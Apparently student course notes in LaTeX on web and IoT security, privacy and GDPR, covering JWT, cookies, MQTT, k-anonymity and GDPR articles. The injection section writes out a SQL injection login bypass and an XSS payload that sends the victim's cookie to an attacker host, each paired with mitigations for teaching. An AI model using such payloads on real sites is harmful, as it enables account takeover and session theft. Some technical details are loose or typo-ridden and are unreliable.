Authenticating resource owners to clients is out of scope for this specification, OpenID Connect defines an interoperable way to use OAuth 2.0 to perform user authentication, it is builded directly on OAuth 2.0.

\subsection{Small digression on JWT}
\textbf{JWT} (JSON Web Token) is a DeFacto standard for OAuth 2.0 access token, defines a container to transport data between interested parties, it consist of three components: the Header (identifies algorithm used to sìgn), Payload (information actually used for access control) and Signature (used to validate the token).

\begin{verbatim}
HEADER

    {
     "alg" : RS256,
     "typ" : "JWT"
    }

    baseurl64 encoded string: fseuiFAihafUIAFHsAshdf
\end{verbatim}

\begin{verbatim}
PAYLOAD

    {
     "user_name" : "admin",
    }

    baseurl64 encoded string: fseuiFAihafUIAFHsAshdf
\end{verbatim}

RS256 stays for RSA signature with SHA-256 asymmetric algorithm using a key pair, base64 is a way to encode binary data into an ASCII character set known to pretty much every computer system, base64url encoding is basically a base64 except for the use of non-reserved URL characters (e.g. \_ is used instead of /) and omit the padding characters.

The complete token is obtained by concatenating the three components above.
    \section{Web and IoT Security}
\subsection{Web Applications}
The \textbf{client-server} model is the most used in Internet, the two entity, client and server, exchange messages in a request-response messaging pattern, to communicate client and server must have a common language specified by a protocol that operate in the application layer. The client is not concerned with how the server performs while fulfilling the request and delivering the response.

\textbf{HTTP} is an appication layer protocol that use the client-server paradigm to exchange messagess, is \begin{itemize}
    \item Connectionless: client initiates an HTTP request and after a request is made, the client disconnects from the server and waits for a response. The server processes the request and re-establishes the connection with the client to send a response back.
    \item Media indipendent: any type of data can be set by HTTP as long as both the client and the server know how to handle the data content.
    \item \textbf{Stateless}: the server and the client are aware of each other only during a current request.
\end{itemize}
\myparagraph{Cookies}
 Said that a Stateless protocol for Internet has not point, so the \textbf{HTTP cookie} was invented. HTTP cookie (or web cookie, Internet cookie, browser cookie or cookie) is a small piece of data sent from a website and stored on the user's computer by the user's web browser, designed to be a reliable mechanism for websites to remember stateful information. Authentication cookies are the most common method used by web servers to know whether the user is logged in or not and which account they are logged in with, security vulnerabilities may allow a cookie's data to be read by a hacker and then used to gain access to user data or to the website to which the cookie belongs. There are also privacy concerns, tracking cookies abd especially third-party tracking cookies are commonly used as ways to compile long-term records of individuals browsing histories.

 This is an example of cookie authentication:
 \begin{figure}[h!]
     \centering
     
\includegraphics[scale=0.35]{images/cookies.png}
 \end{figure}
 \FloatBarrier

 Note that we have to take care when handling cookies, they can be sent in clear or in httpsOnly (server sends back cookies only over HTTPS).
 \\\\
 \subsection{Web security}
 Now we can understand that creating a web application is easy, but creating a secure web application is hard and tedious, we need to secure the database, the server, the application and the network. There are several different attack to consider: malware attack (e.g. virus in the client pc), Network attack (DDoS, Heartblead ...) or Web attack (SQL injection) and even others.

Web applications requirements
\begin{itemize}
    \item Authentication: You want to know who you are communicating with.
    \item Authorization: User must have access to only those resources that they are entitled to.
    \item Confidentiality: You want to keeep information secret.
    \item Integrity: You want to know that a message has not been modified in transit.
    \item Non-repudiation: If someone has sent a message, it should be impossible to deny it later.
\end{itemize}
Web App Security is a branch of information security that deals specifically with security of websites, web applications and web services, the goals are to safely browse the web, support secure web and support secure mobile apps.

\subsection{Injection Attacks}
Are all the types of attacks that exploit a bug processing invalid data, the injection is used by an attacker to inject code into a vulnerable computer program and change the course of execution.

\myparagraph{SQL Injection}
Is a type of injection that exploit the table lookup used for checking if the username correspond with the password,
this is the code in the server:
\begin{verbatim}
    String username = request.getParameter("username");
    String password = request.getParameter("password");
    Statement stmt = con.CreateStatement("SELECT * FROM TBL_USERS WHERE username = '" 
                                        + username + "' AND password = '" + password + "'");
\end{verbatim}
If the client when entering the username write
\begin{verbatim}
    admin';--
\end{verbatim}
The query is now
\begin{verbatim}
    SELECT * FROM TLB_USERS WHERE username = 'admin';-- ' and password = '123';
\end{verbatim}
As we know comments in SQL start with '--' so in our query we are only checking for the username admin skipping the requirment for the password.

A famous SQL injection attack was performet against CardSystems, 263000 credit cards were stolen from the database, they were all stored uncrypted.

Possible mitigation could be input sanitization and appling the principle of least priviledge.

\myparagraph{Cross-Site Scripting (XSS) Attacks}
Suppose the victim is given this URL by the attacker controlling a web site at the address www.hacker.com
\begin{verbatim}
    http://www.vulnerable.com/welcome.php?name=
    <script>window.open ("http://www.hacker.com/
    collect.php?cookie= "+document.cookie) </script>
\end{verbatim}
The idea is to forward the cookie of the user to the site controlled by the attacker so that it can exploit it.
The web page would then be injected with the following script:
\begin{verbatim}
    <html>
      <body>
        <script>window.open("http://www.hacker.com/
         collect.php?cookie= "+document.cookie) 
        </script>
        ,welcome to our site.
      </body>
    </html>
\end{verbatim}
The script, executed in the browser of the user, sends the cookie to the web site controlled by the attacker. For this attack exist two variants:
\begin{itemize}
    \item \textbf{Reflected}: Use a constructed URL
    \item \textbf{Stored}: Using a POST to store the bad URL inside a comment/forum
\end{itemize}
Possible mitigations for this attack could be filtering all parameters from HTTP GET and POST, so for example remove special characters or substitute it specifing which characters are allowed.

\myparagraph{Unvalidated input}
Clients can easily circumvent checks in the HTML code itself, such as hidden parameters and JavaScript code, they can simply download the page, edit the HTML and/or JavaScript, load up the modified page in the browser and click "Submit". Client side validation is useful for performance reasons, but useless from a security point of view. A solution could be never trust input from user and never trust client side input validation, all the parameters must be validated on the server side before they are used.

\myparagraph{Broken Authentication}
Username and password combinations are commonly used and commonly broken, collection of them are on sale in the dark web, this is caused by insecure storage of password hash, faulty session management. Mitigation for this could be Disallow weak passwords, use a stronger hash algorithm, salt the password, use HTTPS, implement MFA and do not expose credentials in untrusted locations.

\subsection{IoT Applications}
IoT uses a publish-subscribe communication, this paradigm works like that: A publisher produce data in the form of event and publish it in the rispective Topic on the Event Notification System, the subscriber subscribe to the topic and the ENS notify the subscriber when a message is delivered.
\begin{figure}[h!]
    \centering
    
\includegraphics[scale=0.35]{images/publishersub.png}
\end{figure}
\FloatBarrier

\subsection{MQTT}
\textbf{MQTT} (Message Queue Telematry Transport) is a type of publisher subscribe messaging protocol, designed for constrained devices and low-bandwidth, high-latency or unreliable networks. This because MQTT aims to minimise network bandwidth, small resource requirements and ensure reliability. For the security view it's possible to pass a username and password with an MQTT packet, encryption can be handeled with TLS, indipendently of the MQTT protocol itself. Additional security can be added by an application encrypting data that it sends and receives, but is not something built-in to the protocol. Even if there is authentication, the brute force attack can be performed, also can write packets to "\$SYS/#" in an attempt to crash the broker. Remember, the S in IoT stays for Security.
    \section{Privacy and Data Protection}
\subsection{Privacy}
With the term privacy we refers to two concepts: at first privacy means that everyone gets to \textbf{control} information about herself/himself, so the owner decide who can access his data (like we do everyday with cookies). Privacy means also the requirement of high-level of difficulty in \textbf{correlating} data/actions, this definition is more related to the possibility of remaning anonymous online, this can considered a difficoult task because we don't always want to be able to be anonymous online. 

As we can immagine the notion of privacy is high correlated with what we have saw for the security techniques.
\begin{figure}[h!]
    \centering
    
\includegraphics[scale=0.35]{images/privacy1.png}
\end{figure}

\FloatBarrier

For example we can use the techniques for ensuring confidentiality for guaranting that our personal data are shared only at the ones that we trust, integrity and availability are used to guarantee fondamental rights in freedom.

\myparagraph{LINDDUN}
Is an acronym that characterize the notion of privacy.
\begin{itemize}
    \item \textbf{Linkability}: Being able to sufficently distinguish whether two \textbf{items of interest (ioi)} are linked or not, even without knowing the actual identity of the subject of the linkable ioi (e.g. entries in database related to tge same person). If violated you become more \textbf{Identifiable} and subject of \textbf{inference} (when "group data" is linkable, this can lead to societal harm, like discrimination).  
    \item \textbf{Identifiability}: Being able to sufficently identify the subject within a set of subjects, is related to the notion of digital identity (e.g. identifing the person to whom an entry in a database relates). This leads to severe privacy violations cause the subject assumes he is anonymous.
    \item \textbf{Non-repudiation}: Not being able to dany a claim, when a person is not able to repudiate an action or piece of information, he can be held accountable.
    \item \textbf{Detectability}: being able to sufficently distinguish whether an ioi exists or not, by detecting whether an ioi exists, one can deduce certain information, even without actually having access to that information.
    \item \textbf{Disclosure of information}: Related to violation of confidentiality and thus more to security
    \item \textbf{Unawareness}: Being unaware of the consequences of sharing information, often users are not aware of the impact of sharing data like photos online ecc but also personal information shared with other services. Ideally all users should be clearly informed and educated of the consequences of sharing data. Remember, the more information is available, the easier it can be linked.
    \item \textbf{Non-compliance}: Not being compliant with legislation, regulations and corporate policies. This leads to fines and loss of image and credibility.
\end{itemize}

The first five proprieties are mainly enfored with technology such as cryptography and other technique that we have seen, the las two proprieties are the so called \textbf{soft privacy}, there is no way to enforce these with technology, only an human aspect.

\subsection{Anonymization}
When performing data anonymization we refer to the process of removing Personally Identifying Information (\textbf{PII}) like Name, Social security number, phone number ecc. But this has no technical meaning, it isn't a math thing, in orivacy breaches, any information can be personally identifying such as the Netflix Prize dataset.

\myparagraph{Netflix Data Leak}
In 2006 Netflix launched the netflix price, the goal was to improve movie recommendations algorithm of at least 10\%, for testing Netflix released 100 milion supposedly anonymized movie ratings, each included unique subscriber ID, the movie title, year of release and the date on which the subscriber rated the movie. Just 16 days later two universities researchers annouced that they had identified some of the netflix users in the dataset, they where able to identify targets by matching their Netflix reviews with data from other sites like IMDb.
\\\\
This descripted is the so called \textbf{Linkage attack}, attackers learns sensitive data by joining two datasets on common attributes or demographic attributes. They usually use the \textbf{Quasi-identifiers}, are the attributes like the ZIP code, birth date or the gender, they uniquely identifies 63\% of US popolation nowadays. Publishing a record with a Quasi-identifier is as bad as publishing it with an explicit identity.

A common used mitigation for these types of attacks is the \textbf{k-anonymity}: the information for each person contained in the released table cannot be distingushed from at least k-1 individuals whose information also appears in the release (to be more practice there are k men in the table with the same birth date and gender). Any quasi-identifier present in the released table must appear in at least k records.

Another method used is the \textbf{generalization}: replace quasi-identifiers with less specific but semantically consistent values until get k identical, example all the age from 20 to 29 are now 2*.

\myparagraph{Pseudonymization functions}
A pseudonymization function maps identifiers to pseudonyms:
\begin{itemize}
    \item \textbf{Counter}: Identifiers are substituted by a number chosen by a monotonic counter, a seed s is set to 0 (for instance) and then is incremented, values oriduced by the counter never repeat to prevent any ambiguity. Is a very simple mechanism but sequential character of the counter can orovide information on the order of the data.
    \item \textbf{Pseudo Random Number Generator}: Similar to counter although more complex solution, difficoult to implement (avoid repetitions) but no sequential issue.
    \item \textbf{Cryptographic Hash Function}: The digest of the identifiers is the pseudonym, it is considered inadequate for pseudonymization as it is prone to brute force and dictionary attacks.
    \item \textbf{Encryption}: Usually block ciphers like the AES are used for pseudonymization, the block cipher is used to encrypt an identifier using a secret key, which is both the pseudonymisation and recovery secret.
\end{itemize}       

\subsection{GDPR}
Data privacy laws and regulations vary from country to country and even from state to state, the European Union's General Data Protection Regulation (\textbf{GDPR}) went into effect in May, 25 2018. Compliance with any one set of rules is complicated and challenging, GDPR is applyed  to every european citizen, this has effect also to company not based mainly in europe (like Google). It's a regulation, is applied to all in the same manner, other countries cannot modify it. The aim of GDPR is to minimize the abuse of personal information since most of OTT business is around abusing personal information (like Meta). 


The main entity for GDPR is the 
\textbf{Data controller}: entity that offer service and has responsability to perform the data process activity compliant to regulation, it may use \textbf{data processor}, are usually IT companies that provide pieces for app/service to process personal data, it has to setup a contract that guarantee that is done in the appropriate way. Before performing data processing a \textbf{data privacy impact analisis} has to be performed, this is done to ensure that data processing activity do not collect much personal information, or better, collect minimal personal data needed. This is similar to the least privilege principle.

\myparagraph{Some articles from GDPR}
\begin{itemize}
    \item \textbf{Art 4: Definitions}
    \begin{itemize}
        \item \textbf{Personal data}: means any information relating to an identified or identifiable natural person.
        \item \textbf{Processing}: means any operation or set of operations which is performed on personal data or on sets of personal data.
        \item \textbf{Pseudonymisation}: means the processing of personal data in such a manner that the personal data can no longer be attributed to a specific data subject without the use of additional information.
        \item \textbf{Controller}: means the natural or legal person, public authority, agency or other body which, alone or jointly with others, determines the purposes and means of the processing of personal data.
        \item \textbf{Processor}: means a natural or legal person, public authority, agency or other body which processes personal data on behalf of the controller.
        \item \textbf{Consent} of the data subject means any freely given, specific, informed and unambuguous indication of the data subject's wishes by which he or she, by a statement or by a clear affermative action, signifies agreement to the processing of personal data relating to him or her.
        \item \textbf{Personal data breach}: means a breach of security leading to the accidental or unlawful destruction, loss, alteration, unauthorized disclosure of, or access to, personal data transmitted, stored or otherwise processed.
    \end{itemize}
    \item \textbf{Art. 7: Conditions for consent}
    \\ Where processing is based on consent, the controller shall be able to demonstrate that the data subject \textbf{has consented} to processing of his or her personal data. If the data subject's consent is given in the context of a written declaration which also concerns other matters, the request for consent shall be presented in a manner which is clearly distinguishable from the other matters, in an intelligible and easily accessible form, using clear and plain language. The data subject \textbf{shall have the right} to withdraw his or her consent at any time.
    \item \textbf{Art. 32: Security of processing}
    \\ The controller and the processor shall implement appropriate (state of art) technical and organisational measures to ensure a level of security appropriate to the risk, including inter alia as appropriate: the pseudonymization and encryption of personal data, the ability to ensure the ongoing confidentiality, integrity and availability and resilience of processing systems and services (this is very general). In assessing the appropriate level of security account shall be takenin particular of the risks that are presented by processing.
    \item \textbf{Art. 33: Notification of a personal data breach to the supervisory authority}
    \\ In the case of a personal data breach the controller shall without undue delay and, where feasible, not later than 72 hours after having become aware of it, notify the personal data breach to the supervisory authority competent unless the personal data breach is unlikely to result in a risk to the rights and freedoms of natural persons. The processor shall notify the controller without undue delay after becoming aware of a personal data breach.
    \item \textbf{Art. 34: Communication of a personal data breach to the data subject}
    \\ When the personal data breach is likely to result in high risk to the rights and freedoms of natural persons, the controller shall communicate the personal data breach to the data subject without undue delay.
    \item \textbf{Art. 35: Data protection impact assessment}
    \\ Where a type of processing in particular using new technologies, and taking into account the nature, scope, context and purposes of the processing, is likely to result in a high risk to the rights and freedoms of natural persons, the controller shall, prior to the processing, carry out an assessment of the impact of the envisaged processing operations on the protection of personal data.
    The assessment shall contain at least: a systematic description of the envisaged processing operations and the purposes of the processing, an assessment of the risks to the rights and freedoms of data subjects. 
\end{itemize}


\end{document}
